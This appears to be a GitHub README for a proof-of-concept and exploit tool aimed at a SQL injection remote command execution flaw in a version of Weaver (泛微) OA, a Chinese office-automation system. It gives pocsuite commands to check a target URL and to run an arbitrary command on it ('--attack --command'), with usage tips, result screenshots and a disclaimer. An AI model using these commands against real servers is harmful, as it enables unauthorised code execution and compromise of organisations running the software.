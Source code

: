 # weaverOA_sql_RCE
## 泛微OA某版本的SQL远程命令执行漏洞
POC:
PS:url结尾不能有[/],例如：http://127.0.0.1:8080，不能为http://127.0.0.1:8080/

Url ending cannot have [/], for example, http://127.0.0.1:8080, not for http://127.0.0.1:8080/

pocsuite -r weaverOA_sql_injection_POC_EXP.py -u url --verify

![1648651245(1)](https://user-images.githubusercontent.com/54984589/160861695-53c75697-6b88-41fb-bcc7-c1a49c8e2dec.png)

EXP:pocsuite -r weaverOA_sql_injection_POC_EXP.py -u url --attack --command "[command]"

PS:url结尾不能有[/],例如：http://127.0.0.1:8080，不能为http://127.0.0.1:8080/

Url ending cannot have [/], for example, http://127.0.0.1:8080, not for http://127.0.0.1:8080/

![1648651381(1)](https://user-images.githubusercontent.com/54984589/160862217-45fe5a02-d6ab-4731-adb1-8b20ebcf2130.png)
# 免责声明
## 此工具仅用于学习、研究和自查。不应将其用于非法目的。使用本工具产生的一切风险与我无关！
# Disclaimer
## This tool is for study, research, and self-examination only. It should not be used for illegal purposes. All risks arising from the use of this tool have nothing to do with me!

